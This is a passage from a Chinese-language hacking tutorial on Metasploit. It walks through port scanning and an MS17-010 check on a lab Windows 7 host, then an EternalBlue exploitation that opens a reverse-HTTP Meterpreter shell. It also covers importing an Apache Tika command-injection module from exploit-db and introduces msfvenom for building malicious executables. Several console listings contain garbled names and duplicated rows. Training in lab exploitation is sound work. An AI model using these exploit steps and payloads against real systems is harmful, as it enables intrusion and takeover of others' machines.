-rw-r--r-- 1 root root  5788 Jul  2 15:55 ms06_025_rasmans_reg.rb
-rw-r--r-- 1 root root  3289 Jul  2 15:55 ms06_025_ras.rb
-rw-r--r-- 1 root root  9346 Jul  2 15:55 ms06_040_netapi.rb
-rw-r--r-- 1 root root  3931 Jul  2 15:55 ms06_066_wnapi.rb
-rw-r--r-- 1 root root  3538 Jul  2 15:55 ms06_066_nwlink.rb
-rw-r--r-- 1 root root  5923 Jul  2 15:55 ms06_070_kxssvc.rb
-rw-r--r-- 1 root root  8367 Jul  2 15:55 ms07_029_msdns_zonename.rb
-rw-r--r-- 1 root root 40480 Jul  2 15:55 ms08_067_netapi.rb
-rw-r--r-- 1 root root  5745 Jul  2 15:55 ms09_050_smb2_negotiate_func_index.rb
-rw-r--r-- 1 root root  3856 Jul  2 15:55 ms10_046_shortcut_icon_dllloader.rb
-rw-r--r-- 1 root root 12122 Jul  2 15:55 ms10_061_spoolss.rb
-rw-r--r-- 1 root root  4543 Jul  2 15:55 ms15_020_shortcut_icon_dllloader.rb
-rw-r--r-- 1 root root 26933 Jul  2 15:55 ms17_010_eternalblue.rb
-rwxr-xr-x 1 root root  3721 Jul  2 15:55 ms17_010_eternalblue_win8.py
-rw-r--r-- 1 root root  5616 Jul  2 15:55 ms17_010_exesec.rb
-rw-r--r-- 1 root root  4800 Jul  2 15:55 netidmetix_xtierppp_pipe.rb
-rw-r--r-- 1 root root  3772 Jul  2 15:55 pwsh_psh.rb
-rw-r--r-- 1 root root  6171 Jul  2 15:55 pxexec.rb
-rw-r--r-- 1 root root  2595 Jul  2 15:55 smb_delivery.rb
-rw-r--r-- 1 root root 23170 Jul  2 15:55 smb_relay.rb
-rw-r--r-- 1 root root  4257 Jul  2 15:55 tmbiubku_plughintcommand_bof.rb
-rw-r--r-- 1 root root  5661 Jul  2 15:55 wbexe_c.rb
```

在这里，Metasploit 拥有所有可以攻击 SMB 协议的利用模块（关于 SMB 协议的更多信息，参见 [网络基础：黑客须知——服务器消息块（SMB）](https://www.hackers-arise.com/single-post/2019/03/04/Network-Basics-for-Hackers-Server-Message-Block-SMB)）。请注意，每个模块都以 `.rb` 结尾，意味着其代码是用 Ruby 编写的。此外，我已经指出了 Metasploit 中的 `EternalBlue` 利用模块。我们在第 7 章的漏洞评估中得知，我们的 Windows 7 系统易受 `EternalBlue` 攻击。

我希望这次对 Metasploit 目录结构的简短探索能为你照亮这款强大工具的内部工作原理，并帮助你找到所需的模块。另外，在本章的后半部分，我们将向 Metasploit 框架添加一个模块，我们需要知道将其放置在哪里。

## 关于利用成功的说明

黑客攻击，或者说利用，并不是简单地选择一个利用模块并“把它扔向系统”然后……

Voila!……你就进入了系统（虽然基于数百万个以这种方式描绘黑客攻击的 YouTube 视频，我不会责怪你这么认为）。黑客攻击是一个过程；有时是一个冗长的过程。即使你选择了正确的利用模块，它仍然可能不起作用。

如果我把黑客攻击描绘得容易且总是成功的，那就是对你的一种伤害。通常黑客攻击会失败。

你正在试图让系统做它本不该做的事。在某些情况下，你正在破坏服务或系统以获取访问权限。这与系统或网络管理员的工作非常不同，他们试图让系统按预期工作。

如果你在执行本书中展示的黑客攻击时遇到困难，请将其视为真实世界的反映。黑客攻击并不容易，也不总是成功的。正如我在第 2 章中指出的那样，黑客的两个关键品质是坚持和创造力。


话虽如此，Metasploit 的漏洞利用程序都经过了充分测试，能够针对其目标系统正常工作。即便这样，它们也**并不总是**能成功。为了说明这一点，请再次在 `msfconsole` 中输入 `show exploits` 命令。

`msf5 > show exploits`

你将看到数百个漏洞利用模块。请注意第 5 列。在这一列中，Rapid7 的同仁们为我们提供了关于漏洞利用模块可能成功率的指示。这些排名按成功率从高到低依次为：

1. 优秀（Excellent）

2. 很好（Great）

3. 良好（Good）

4. 一般（Average）

5. 手动（Manual）

这意味着，如果你使用评级为“优秀”的漏洞利用模块，它在 90% 的情况下可能会有效，而不是 100%。另一方面，如果你使用评级为“手动”的模块，你可能只能预期其在不到 40% 的情况下有效。其他模块的有效性介于 90% 和 < 40% 之间。

### 使用 Metasploit 进行侦察

在第 5 章和第 6 章中，我们使用了许多工具对我们的目标进行侦察。目前，我们已经相当了解我们的目标，包括其开放端口、服务、技术、操作系统、浏览器等。大部分这些信息也可以通过 Metasploit 中的辅助模块获取。

Metasploit 中的辅助模块是不属于其他模块类别的模块。换句话说，辅助模块是一个模块的“杂烩袋”。许多辅助模块是侦察工具，还有许多扫描器。此外，这一类别中还有一些密码破解工具、漏洞扫描工具和其他许多工具。

```bash
root@kali-2019:~# cd /usr/share/metasploit-framework/modules/auxiliary/scanner/portscan
root@kali-2019:/usr/share/metasploit-framework/modules/auxiliary/scanner/portscan$ ls -l
total 20
-rw-r--r-- 1 root root 3949 Jul  2 15:55 ack.rb
-rw-r--r-- 1 root root 2652 Jul  2 15:55 ftpbounce.rb
-rw-r--r-- 1 root root 3787 Jul  2 15:55 syn.rb
-rw-r--r-- 1 root root 3268 Jul  2 15:55 tcp.rb
-rw-r--r-- 1 root root 3980 Jul  2 15:55 xmas.rb
```

| # | 路径 | 类型 | 检查 | 描述 |


|---|---|---|---|---|

| 25 | auxiliary/scanner/portscan/ack | normal | Yes | TCP ACK 防火墙扫描器 |

| 26 | auxiliary/scanner/portscan/ftpbounce | normal | Yes | FTP 反弹端口扫描器 |

| 27 | auxiliary/scanner/portscan/syn | normal | Yes | TCP SYN 端口扫描器 |

| 28 | auxiliary/scanner/portscan/tcp | normal | Yes | TCP 端口扫描器 |

| 29 | auxiliary/scanner/portscan/xmas | normal | Yes | TCP "XMas" 端口扫描器 |

| 30 | auxiliary/scanner/rogue/rogue_send | normal | Yes | 恶意网关检测 |

例如，要像我们在第 6 章中使用 `nmap` 那样进行类似的端口扫描，Metasploit 在 `auxiliary/scanner` 目录中有几个模块。要找到它们，请导航到 `/usr/share/metasploit-framework/modules/auxiliary/scanner/portscan` 并执行长列表显示。

```bash
kali > cd /usr/share/metasploit-framework/modules/auxiliary/scanner/portscan
kali > ls -l
```

正如你上面所看到的，Metasploit 有端口扫描模块，可以执行 ACK 扫描、SYN 扫描、TCP 扫描（这与第 6 章中的 `nmap -ST` 扫描相同）以及 XMAS 扫描（发送设置了 PSH-URG-FIN 标志的数据包）。有关 TCP 标志的更多信息，请参阅 www.hackers-arise/networks-basics。

### 使用 Metasploit 进行端口扫描

让我们尝试使用 Metasploit 对我们的 Windows 7 系统进行 TCP 端口扫描，就像我们在第 6 章中使用 `nmap` 所做的那样。从 `msfconsole` 中，我们可以搜索该模块。

`msf5 > search type:auxiliary tcp`

当我们按回车键时，我们可以看到 Metasploit 有 39 个满足该条件的漏洞利用。如果我们向上滚动一点，可以看到编号 #28 是一个 TCP 端口扫描器。让我们使用那一个。

`msf5 > use auxiliary/scanner/portscan/tcp`

```text
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > info

Name: TCP Port Scanner
Module: auxiliary/scanner/portscan/tcp
License: Metasploit Framework License (BSD)
Rank: Normal

Provided by:
hdm <x@hdm.io>
Kris Katterjohn <katterjohn@gmail.com>

Check supported:
Yes

Basic options:
Name     Current Setting Required Description
----     -------------- -------- -----------------------------------------
CONCURRENCY 10            yes      The number of concurrent ports to check per host
DELAY       0             yes      The delay between connections, per thread, in milliseconds
JITTER      0             yes      The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds
PORTS       1-10000       yes      Ports to scan (e.g. 22-25,80,110-900)
RHOSTS      (blank)       yes      The target address range or CIDR identifier
THREADS     1             yes      The number of concurrent threads
TIMEOUT     1000          yes      The socket connect timeout in milliseconds

Description:
Enumerate open TCP services by performing a full TCP connect on each port. This does not need administrative privileges on the source machine, which may be useful if pivoting.
```

要使用此模块对我们的 Windows 7 系统进行端口扫描，我们只需要设置 `RHOSTS`（远程主机或我们的目标系统）的 IP 地址并输入 `run`。

`msf5 > set RHOSTS 192.168.0.114`

`msf5 > run`

```text
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.0.114
RHOSTS => 192.168.0.114
msf5 auxiliary(scanner/portscan/tcp) > run

[+] 192.168.0.114:139 - TCP OPEN
[+] 192.168.0.114:135 - TCP OPEN
[+] 192.168.0.114:445 - TCP OPEN
[+] 192.168.0.114:3306 - TCP OPEN
[+] 192.168.0.114:3357 - TCP OPEN
[*] 192.168.0.114: - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

如你所见，Metasploit 的端口扫描模块找到了与我们在第 6 章中 `nmap` 扫描完全相同的结果。

### 使用 Metasploit 进行漏洞扫描

除了端口扫描器，Metasploit 的辅助模块中还有一些漏洞扫描器。由于我们要专注于本书中的 EternalBlue 漏洞利用，让我们看看我们能否在 Metasploit 中找到一个用于漏洞评估的模块。通常，Metasploit 中的漏洞扫描器位于辅助模块中，因此我们可以按类型“auxiliary”搜索，并寻找关键词“eternalblue”。

`msf5 > search type:auxiliary eternalblue`

正如你上面看到的，我们的搜索找到了两个符合我们条件的模块。第二个，描述为“MS17-010 SMB RCE 检测”，就是我们要用的那个。

```text
msf5 auxiliary(scanner/portscan/tcp) > search type:auxiliary eternalblue

Matching Modules

 #  Name
---- ----
 0  auxiliary/admin/smb/ms17_010 command
 1  auxiliary/scanner/smb/smb_ms17_010

Disclosure Date  Rank   Check  Description
------------------ ----- -----  ----------
2017-03-14       normal Yes    MS17-010 EternalRomaince/EternalSynergy/EternalChampion
                   normal Yes    MS17-010 SMB RCE Detection
```

`msf5 > use auxiliary/scanner/smb/smb_ms17_010`


```text
msf5 auxiliary(scanner/smb/smb_ms17_010) > info

Name: MS17-010 SMB RCE Detection
Module: auxiliary/scanner/smb/smb_ms17_010
License: Metasploit Framework License (BSD)
Rank: Normal

Provided by:
 Sean Dillom <sean.dillom@risksense.com>
 Luke Jennings

Check supported: Yes

Basic options:
Name        Current Setting Required Description
----        ----------------- -------  --------
CHECK_ARCH  true  no    Check for architecture on vulnerable hosts
CHECK_DOPU  true  no    Check for DOUBLEPULSAR on vulnerable hosts
CHECK_PIPE  false no    Check for named pipe on vulnerable hosts
NAMED_PIPES /usr/share/metasploit-framework/data/wordlists/named_pipes.txt yes List of named pipes to check
RHOSTS      (blank)  yes    The target address range or CIDR identifier
RPORT       445   yes    The SMB service port (TCP)
SMBDOMAIN   (blank)  no    The Windows domain to use for authentication
SMBpass     (blank)  no    The password for the specified username
SMBuser     (blank)  no    The username to authenticate as
THREADS     1     yes    The number of concurrent threads

Description:
Uses information disclosure to determine if MS17-010 has been patched or not. Specifically, it connects to the IPC$ tree and attempts a transaction on Fid 0. If the status returned is STATUS_INVALID_SERVER_RESOURCES, the machine does not have the MS17-010 patch. If the machine is missing the MS17-010 patch, the module will check for an existing doublepulsar (ring 0 shellcode/salware) infection. This module does not require valid SMB credentials in default server configurations. It can log on as the user \\u\$ and connect to IPC$.
```

让我们把它加载到控制台中，并尝试针对我们的 Windows 7 系统使用它。

```
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

现在我们已经加载了它，让我们获取有关此模块的一些信息。

```
msf5 > info
```

请注意描述部分（位于底部附近），Metasploit 将该模块描述为：158 | 页

```
msf5 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.0.114
RHOSTS > 192.168.0.114
msf5 auxiliary(scanner/smb/smb_ms17_010) > exploit
[*] 192.168.0.114:445	- 主机很可能易受 MS17-010 攻击！ - Windows 7 Ultimate X64 (64位)
[*] 192.168.0.114:445	- 已扫描 1/1 个主机 (100% 完成)
[*] 辅助模块执行完成
```


> “利用信息泄露来确定 MS17-010 是否已打上补丁。”

这正是我们需要知道的信息！让我们使用它来查看 Windows 7 系统是否易受永恒之蓝（EternalBlue）漏洞的攻击（是的，我知道。我们在第 7 章中做过类似的事情，但在黑客攻击中总是知道完成同一任务的多种方法是有益的）。

```
msf5 > set RHOSTS 192.168.0.114
```

```
msf5 > exploit
```

正如我们在第 7 章中猜测并确认的那样，我们的 Windows 7 系统易受永恒之蓝漏洞的攻击！

### 使用永恒之蓝进行利用

现在，凭借我们在侦察和漏洞评估过程中收集到的信息，我们准备利用我们的 Windows 7 系统！

让我们搜索合适的利用程序。

```
msf5 > search type:exploit eternalblue
```

我们找到了针对 Windows 7 的永恒之蓝利用程序！

让我们把它加载到控制台中并查看 info 文件。

```
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > info
```


```
msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > info
```

# MS17-010 EternalBlue SMB 远程 Windows 内核池损坏

**模块信息**
- 名称: `MS17-010 EternalBlue SMB 远程 Windows 内核池损坏`
- 模块: `exploit/windows/smb/ms17_010_eternalblue`
- 平台: `Windows`
- 架构:
- 特权: 是
- 许可证: `Metasploit 框架许可证 (BSD)`
- 排名: 中等
- 披露日期: `2017-03-14`

**提供者**
```
Sean Dhillon <sean.dhillon@risksense.com>
Dylan Davis <dylan.davis@risksense.com>
方程式组织 (Equation Group)
影子代理商 (Shadow Brokers)
@tightlyc0ssine
```

## 可用目标
```
Id  名称
--  -----
0   Windows 7 和 Server 2008 R2 (x64) 所有服务包
```

**支持检查**
- 是

## 基本选项
```
名称                     当前设置 必需  描述
---                     --------------- ---------  -----------
RHOSTS                   44                    no     目标地址范围或 CIDR 标识符
RPORT                    445                   no     目标端口 (TCP)
SMBDomain                                    (可选) 用于身份验证的 Windows 域
SMBPass                                      (可选) 指定用户名的密码
SMBUser                                      (可选) 用于身份验证的用户名
VERIFY_ARCH                true                yes     检查远程架构是否与利用目标匹配。
VERIFY_TARGET              true                yes     检查远程操作系统是否与利用目标匹配。
```

## 有效载荷信息
- 空间: `2000`
- 路径: `/tmp/evilpath`

## 描述
此模块是方程式组织永恒之蓝利用程序的移植版本，属于影子代理商发布的 `FuzzBunch` 工具包的一部分。`SrvSrvOs2File` 中存在缓冲区溢出 `memmove` 操作。大小在 `SrvSrvOs2FRead1SizeWith` 的数学计算错误中计算，其中 `DWORD` 被减去到 `WORD`。内核池已被修剪


```
msf5 exploit(windows/smb/ms17_010_eternalblue) > show payloads
可编译的有效载荷
=====================
      # 名称                                  披露日期    排名    检查 描述
      -- ----                                  ---------------  ----  ----- -----------
       1   generic/custom                                    normal no    自定义有效载荷
       2   generic/shell_bind_tcp                          normal no    通用命令 Shell，绑定 TCP 内联
       3   generic/shell_reverse_tcp                       normal no    通用命令 Shell，反向 TCP 内联
       4   windows/x64/egle                                normal no    Windows x64 执行命令
       5   windows/x64/shell_reverse_http                  normal no    Windows x64 (库路径)
       6   windows/x64/meterpreter/reverse_http              normal no    Windows Meterpreter (x64 反射注入)，Window x64 绑定 TCP Steager
       7   windows/x64/meterpreter/reverse_https             normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 HTTP Steager
       8   windows/x64/meterpreter/reverse_tcp               normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 TCP Steager
       9   windows/x64/meterpreter/reverse_tcp             normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 TCP Steager (Wininet)
      10   windows/x64/meterpreter/reverse_tcp_rc4           normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 HTTPS Steager (Wininet)
      11   windows/x64/meterpreter/reverse_https             normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 HTTPS Steager (Wininet)
      12   windows/x64/meterpreter/reverse_https             normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 HTTPS Steager (Wininet)
      13   windows/x64/meterpreter/reverse_https             normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 HTTPS Steager (Wininet)
      14   windows/x64/meterpreter/reverse_smb               normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 SMB Steager (Wininet)
      15   windows/x64/meterpreter/reverse_tcp               normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 TCP Steager (Wininet)
      16   windows/x64/meterpreter/reverse_tcp               normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 TCP Steager (Wininet)
      17   windows/x64/meterpreter/reverse_tcp_rc4           normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 TCP Steager (Wininet)
      18   windows/x64/meterpreter/reverse_tcp               normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 TCP Steager (Wininet)
      19   windows/x64/meterpreter/reverse_tcp               normal no    Windows Meterpreter (x64 反射注入)，Window x64 反向 TCP Steager (Wininet)
      20   windows/x64/powershell_bind_tcp                   normal no    Windows 交互式 Powershell 会话，绑定 TCP
```

请注意，此利用程序只需要您设置 `RHOSTS` 参数（变量）即可使用。

接下来，让我们将此利用程序与我们可以留在系统中以在利用后控制它的有效载荷组合起来。为了找到与此利用程序兼容的有效载荷，我们可以输入；`msf5 > show payloads` 160 | 页

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_http
PAYLOAD => windows/x64/meterpreter/reverse_http
```

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.0.114
RHOSTS => 192.168.0.114
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.0.173
LHOST => 192.168.0.173
```

正如上面所见，Metasploit 显示了 45 个与此利用程序兼容的有效载荷。注意 `#12`，即 `windows/x64/meterpreter/reverse_http` 有效载荷。

让我们看看它的名称意味着什么。

- `windows` - 这意味着它将与 Windows 操作系统兼容
- `x64` - 这意味着它将与 64 位操作系统兼容
- `meterpreter` - 这意味着它会在目标上放置一个名为“meterpreter”的特殊 Metasploit 有效载荷
- `reverse_http` - 这意味着有效载荷将通过 HTTP 向我们“反向”回调，看起来像正常的 HTTP 流量

要使用此有效载荷，我们需要使用 `set` 命令并加上有效载荷的名称。

```
msf5 > set PAYLOAD windows/x64/meterpreter/reverse_http
```

现在，我们需要设置我们将使用的 IP 地址。`RHOSTS` 是远程主机或目标系统（Windows 7），`LHOST` 是本地主机或我们的 Kali 系统（你需要使用 Windows 上的 `ipconfig` 和 Kali Linux 上的 `ifconfig` 来获取你的 IP 地址）。

```
msf5 > set RHOSTS 192.168.0.114
```

```
msf5 > set LHOST 192.168.0.173
```

最后一步是输入命令 `exploit` 以在 Windows 7 系统上运行漏洞利用。

```
msf5 > exploit
```


```
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started HTTP reverse handler on http://192.168.0.173:8080
[*] 192.168.0.114:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7600 x64 (64-bit)
[*] 192.168.0.114:445 - Connecting to target for exploitation.
[*] 192.168.0.114:445 - Connection established for exploitation.
[*] 192.168.0.114:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.0.114:445 - CMD raw buffer dump (23 bytes):
[*] 192.168.0.114:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61 te 7600
[*] 192.168.0.114:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.0.114:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.0.114:445 - Sending all but last fragment of exploit packet
[*] 192.168.0.114:445 - Starting non-paged pool grooming
[*] 192.168.0.114:445 - Sending SMB2 buffers
[*] 192.168.0.114:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.0.114:445 - Sending final SMB2 buffers.
[*] 192.168.0.114:445 - Sending last fragment of exploit packet!
[*] 192.168.0.114:445 - Receiving response from exploit packet
[*] 192.168.0.114:445 - ETERNALBLUE overwrite completed successfully (0xc000000d)!
[*] 192.168.0.114:445 - Sending egg to corrupted connection.
[*] 192.168.0.114:445 - Triggering free of corrupted buffer.
[*] http://192.168.0.173:8080 handling request from 192.168.0.114; (UUID: qaxvlsx) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.0.173:8080 -> 192.168.0.114:49215) at 2019-08-07 14:49:36 +0600
[*] 192.168.0.114:445 - ::=== WIN :: === :: ===
meterpreter >
```

```
meterpreter > sysinfo
Computer : OTW-PC
OS : Windows 7 (Build 7600).
Architecture : x64
System Language : en-US
Domain : WORKGROUP
Logged On Users : 2
Meterpreter : x64/windows
```

如图所示，我们成功了并收到了 `meterpreter` 提示符！

```
meterpreter >
```

这意味着我们进入了 Windows 7 系统。为了确认，让我们输入命令 `sysinfo`。

如果我们已进入系统内部，它应该会返回 Windows 7 系统的系统信息。

```
meterpreter > sysinfo
```

正如这里所见，该命令告诉我们我们位于一台具有以下属性的计算机内部：

| 属性 | 值 |

| :--- | :--- |

| 计算机 | OTW-PC |

| 操作系统 | Windows 7 (Build 7600) |

| 架构 | x64 |

| 系统语言 | en-US |

| 域 | Workgroup |

| 登录用户数 | 2 |


```
Interface 1
============
Name        : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU         : 4294967295
IPv4 Address  : 127.0.0.1
IPv4 Netmask  : 255.0.0.0
IPv6 Address  : ::1
IPv6 Netmask  : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

```
Interface 11
=============
Name        : Intel(R) PRO/1000 MT Desktop Adapter
Hardware MAC : 08:00:27:7a:1d:50
MTU         : 1500
IPv4 Address  : 192.168.0.114
IPv4 Netmask  : 255.255.255.0
IPv6 Address  : fe80::3007:32a8:a8a7:cd67
IPv6 Netmask  : ffff:ffff:ffff:ffff::
```

```
Interface 12
=============
Name        : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU         : 1280
IPv6 Address  : fe80::5efe:c0a8:72
IPv6 Netmask  : ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

Meterpreter : x64/windows

为了进一步确认，让我们输入 `ifconfig` 以查找被黑客攻击系统的 IP 地址。

```
meterpreter > ifconfig
```

## 添加新的漏洞利用模块

Metasploit 内置了将近 2000 个漏洞利用模块。这些**并非** Metasploit 可用的所有漏洞利用模块。世界各地的人们都在将漏洞利用模块移植到 Metasploit 中，但并非所有模块都能通过审核。此外，Metasploit 的更新频率大约是“每周一次”（这是 Rapid7 的术语，不是我的）。当出现新的漏洞利用模块时，它可能直到下次更新才会出现在 Metasploit 中，或者根本不会出现。有时，你无法等待那么久。这时你就需要知道如何自行添加模块。

例如，在 8 月 8 日，我访问 `exploit-db.com` 搜索新的 Metasploit 漏洞利用模块。我在右上角的搜索框中输入了“Metasploit”；exploit-db 会返回所有名称、描述或作者中包含 Metasploit 的漏洞利用模块。如下所示，有一个全新的、发布于 3 天前的针对“Apache Tika 1.15-1.17 头部命令注入”的漏洞利用模块。该漏洞利用模块尚未被纳入 Metasploit。

当我们点击它时，我们可以扫描代码的信息部分以了解其功能。


```ruby
def initialize(info = {})
  super(update_info(info,
    'Name'         => 'Apache Tika Header Command Injection',
    'Description'  => %q{
      This module exploits a command injection vulnerability in Apache Tika 1.15 - 1.17 on Windows. A file with the image/jpg content-type is used to bypass magic bytes checking. When OCR is specified in the request, parameters can be passed to change the parameters passed at command line to allow for arbitrary Jscript to execute. A JScript stub is passed to execute arbitrary code. This module was verified against version 1.15 - 1.17 on Windows 2012. While the CVE and finding show more versions vulnerable, during testing it was determined only > 1.14 was exploitable due to jpg support being added.
    },
  ...
```
```bash
root@kali-2019:~# cd /usr/share/metasploit-framework/modules/exploits/windows
root@kali-2019:/usr/share/metasploit-framework/modules/exploits/windows# ls -l
total 328
drwxr-xr-x 2 root root 4096 Jul 11 09:31 antivirus
drwxr-xr-x 2 root root 4096 Jul 11 09:31 backdoor
drwxr-xr-x 2 root root 4096 Jul 11 09:31 backupexec
drwxr-xr-x 2 root root 4096 Jul 11 09:31 brightstor
drwxr-xr-x 2 root root 45056 Jul 11 09:31 browser
drwxr-xr-x 2 root root 4096 Jul 11 09:31 dcexec
drwxr-xr-x 2 root root 4096 Jul 11 09:31 email
drwxr-xr-x 2 root root 36864 Jul 11 09:31 ews
drwxr-xr-x 2 root root 4096 Jul 11 09:31 fileformat
drwxr-xr-x 2 root root 4096 Jul 11 09:31 firewall
```

如果我们等待 Rapid7 更新，目标系统到那时可能已经修补了漏洞。

如果你不熟悉 Apache Tika，以下是来自其官网的直接描述：Apache Tika™ 工具包可检测并提取超过一千种不同文件类型（如 PPT、XLS 和 PDF）的元数据和文本。所有这些文件类型都可以通过单一接口解析，使 Tika 适用于搜索引擎索引、内容分析、翻译以及更多领域。

我们现在需要安装并使用它！

为了将此漏洞利用模块导入 Metasploit，我想提醒你上文关于 Metasploit 结构的章节。要将新模块放入 Metasploit，我们必须知道将其放置在哪里。

由于这是一个 Windows 漏洞利用模块，我们可以先导航到：

```
kali > cd /usr/share/metasploit-framework/modules/exploits/windows
kali > ls -l
```


```
root@kali-2019:~/Downloads# ls -l
total 75488
-rw-r--r-- 1 root root 4381 Aug 15 13:04 47208.rb
-rw-r--r-- 1 root root 77287 Jul 18 09:08 Nessus-8.5.1-debian6_amd64.deb
```

我们可以看到，现在需要进一步对该 Windows 漏洞利用模块进行分类。虽然这不影响漏洞利用模块的正常功能，但为了组织和易用性，我们需要将其放入正确的类别中。

通过阅读漏洞利用模块的描述，放置该漏洞利用模块的最佳位置可能是“fileformat 漏洞利用”`fileformat` 漏洞利用利用特定文件类型中的漏洞，因为它使用 `.jpg` 文件类型进行命令注入。现在，移动到 `fileformat` 子目录。

```
kali > cd fileformat
```

现在，你可以直接下载漏洞利用模块到该目录，或者从其他目录下载并移动到这里。

如果你使用浏览器下载，新的漏洞利用模块将进入你的 `Downloads` 目录。打开另一个终端并导航到 `Downloads` 目录。

注意，新的漏洞利用模块只有一个编号而不是名称。我们需要修复这个问题**并**将其移动到 Metasploit 使用的正确目录。

我们可以使用 Linux 中的 `mv` 命令来完成这两项任务。

只需使用 `mv` 命令，后跟文件名，然后是目标目录和新文件名（例如 `tika.rb`），如下所示：

```
-rw-r--r--    1 root root   3735 Jul  2 15:55 realplayer_ver_attribute_bof.rb
-rw-r--r--    1 root root  10037 Jul  2 15:55 safenet_sofftremote_groupname.rb
-rw-r--r--    1 root root   3271 Jul  2 15:55 sascam_get.rb
-rw-r--r--    1 root root   2596 Jul  2 15:55 scadaphone_zip.rb
-rw-r--r--    1 root root   2142 Jul  2 15:55 shadow_stream_recorder_bof.rb
-rw-r--r--    1 root root   4368 Jul  2 15:55 shaper_pdf_bof.rb
-rw-r--r--    1 root root   2002 Jul  2 15:55 somplayer_m3u.rb
-rw-r--r--    1 root root   3955 Jul  2 15:55 subtitle_processor_m3u_bof.rb
-rw-r--r--    1 root root   2117 Jul  2 15:55 syncbreeze_xml.rb
-rw-r--r--    1 root root   2631 Jul  2 15:55 tifm_mpplayer_m3u_pl_bof.rb
-rw-r--r--    1 root root   4381 Aug 15 13:04 tika.rb
-rw-r--r--    1 root root   2028 Jul  2 15:55 total_video_player_ini_bof.rb
```

```
msf5 exploit(windows/smb/ms17_010_externalblue) > reload_all
[*] Reloading modules from all module paths...
```

```
msf5 > search type:exploit platform:windows tika
Matching Modules
=================

 # Name                        Disclosure Date  Rank    Check  Description
 - ---                         -------------    ----    -----  -----------
 0 exploit/windows/fileformat/tika 2018-04-25    excellent Yes   Apache Tika Header Command Injection
```


`kali > mv 47208.rb /usr/share/metasploit-framework/modules/exploits/windows/fileformat/tika.rb`

现在，当我们返回 Metasploit 目录并对 `fileformat` 目录执行长列表显示时，我们应该能看到我们的新漏洞利用模块。

现在，为了让 Metasploit 识别我们的新模块，我们需要执行最后一步。在 `msfconsole` 提示符下，输入 `reload_all`；这将重新加载所有模块路径中的所有模块。

```
msf5 > reload_all
```

现在，要测试您的新模块是否可供 Metasploit 使用，我们可以搜索它。

```
msf5 > search type:exploit platform:windows tika
```

成功！

我们向 Metasploit 添加了一个新模块，并且它已准备好供我们使用！

# 使用 msfvenom 创建恶意文件

Metasploit 有一个特殊功能，用于创建包含 payload 模块的恶意文件。换句话说，这就是我们如何创建一个包含 Windows 可执行文件（`.exe`）的文件，当目标点击并激活该文件时，我们就能获得对目标计算机的控制权。理想情况下，这个 payload 应该是 Meterpreter payload，因为它在后期利用能力（如网络摄像头、麦克风、文件上传和下载）方面具有最大的功能。我们将在第 11 章中使用 Meterpreter 进行一些后期利用操作。

在 Metasploit 中，这个功能被称为 `msfvenom`。`Msfvenom` 允许你将一个 Metasploit payload 嵌入到一个看似无害的文件中，例如游戏或应用程序。当目标点击该文件时，payload 将被触发，从而在他们的系统上提供 Meterpreter 提示符。这在社交工程中特别有用，当你拥有系统的物理访问权限时。

让我们看看 `msfvenom` 如何工作：首先，创建一个将在目标系统上执行 payload 的恶意文件，然后看看当你拥有物理访问权限时如何使用它来控制一个系统。

# Msfvenom

`Msfvenom` 是一个独立的 payload 生成器，能够创建自定义 payload，将其嵌入到文件中，并掩盖其功能以免被窥探。

`Msfvenom` 是 Metasploit 框架中相对较新的工具。以前，必须同时使用 Metasploit 中的 `msfpayload` 和 `msfencode` 功能来创建自定义文件和 payload。现在，这一切都可以由单个功能 `msfvenom` 来完成。

让我们通过查看帮助屏幕，开始了解使用 `msfvenom` 创建自定义 payload/恶意文件的一些选项。

```
kali > msfvenom -h
msfvenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <varval>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
Options:
	-l, --list              <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
	-p, --payload           <payload>  Payload to use (use -l-list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom payload format (use -l-list formats to list)
	-f, --format            <format>   Output format (use -l-list formats to list)
	-e, --encoder           <encoder>  The encoder to use (use -l-list encoders to list)
	--sec-name              <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
